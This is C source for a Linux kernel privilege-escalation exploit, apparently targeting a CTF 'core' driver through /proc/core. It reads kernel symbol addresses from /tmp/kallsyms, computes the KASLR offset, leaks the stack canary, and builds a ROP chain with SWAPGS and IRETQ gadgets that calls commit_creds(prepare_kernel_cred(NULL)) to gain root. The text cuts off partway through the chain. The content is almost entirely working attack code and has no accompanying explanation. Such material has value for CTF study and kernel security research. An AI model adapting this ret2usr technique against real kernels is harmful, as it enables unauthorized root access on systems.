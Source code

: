 ```c title=exp

void getroot() {
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}


int main() {
    FILE *syms;
    int fd;
    size_t offset;

    size_t addr;
    size_t canary;
    char type[256], name[256];

    size_t rop[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if (fd < 0) {
        puts("\033[31m\033[1m[-] Open /proc/core failed.\033[0m");
        exit(0);
    }

    syms = fopen("/tmp/kallsyms", "r");
    if (syms == NULL) {
        puts("\033[31m\033[1m[-] Open /tmp/kallsyms failed.\033[0m");
        exit(0);
    }

    while (fscanf(syms, "%lx %s %s", &addr, type, name)) {
        if (prepare_kernel_cred && commit_creds) {
            break;
        }

        if (!prepare_kernel_cred && strcmp(name, "prepare_kernel_cred") == 0) {
            prepare_kernel_cred = addr;
            printf("\033[33m\033[1m[√] Found prepare_kernel_cred: %lx\033[0m\n", prepare_kernel_cred);
        }

        if (!commit_creds && strcmp(name, "commit_creds") == 0) {
            commit_creds = addr;
            printf("\033[33m\033[1m[√] Found commit_creds: %lx\033[0m\n", commit_creds);
        }
    }

    offset = commit_creds - 0x9c8e0 - 0xffffffff81000000;
    core_set_offset(fd, 64);
    core_read(fd, name);
    canary = ((size_t *)name)[0];
    printf("\033[34m\033[1m[*] offset: 0x%lx\033[0m\n", offset);
    printf("\033[33m\033[1m[√] Canary: %lx\033[0m\n", canary);

    for (i = 0; i < 10; i++) rop[i] = canary;
    rop[i++] = (size_t)getroot;
    rop[i++] = SWAPGS_POPFQ_RET + offset;
    rop[i++] = 0;
    rop[i++] = IRETQ + offset;
```